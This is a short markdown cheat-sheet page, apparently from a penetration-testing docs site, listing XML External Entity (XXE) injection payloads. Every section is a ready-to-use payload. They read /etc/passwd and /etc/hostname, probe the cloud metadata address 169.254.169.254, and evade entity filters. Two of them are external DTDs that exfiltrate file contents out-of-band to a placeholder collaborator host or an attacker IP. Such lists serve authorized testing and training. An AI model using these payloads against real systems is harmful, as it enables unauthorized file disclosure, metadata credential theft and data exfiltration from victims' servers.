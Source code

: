 ```yaml
---
title: "XXE - XML External Entity"
draft: false
images: []
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


### CUSTOM ENTITY
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
### EXTERNAL ENTITY
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
### PARAMETER ENTITY
Evading block request containing regular entities
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
```
### RETRIEVE DATA WITH EXTERNAL DTD
```
----- EXPLOIT SERVER -----

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;

----- VICTIM SERVER -----

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
### RETRIEVE DATA VIA ERROR
```
----- EXPLOIT SERVER -----

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

----- VICTIM SERVER -----

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
### Out of band
```
<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY >
<!ENTITY % dtd SYSTEM "http://[YOUR_IP]/payload.dtd"> %dtd;]>
<thp><error>%26send%3B</error></thp>
```